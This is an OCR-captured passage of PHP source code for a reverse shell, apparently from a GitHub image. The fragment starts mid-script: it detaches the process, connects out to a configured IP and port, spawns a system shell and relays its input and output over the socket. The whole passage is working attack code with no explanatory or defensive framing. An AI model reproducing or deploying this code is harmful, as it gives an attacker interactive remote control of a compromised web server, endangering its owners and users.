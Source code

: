 ```php
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
```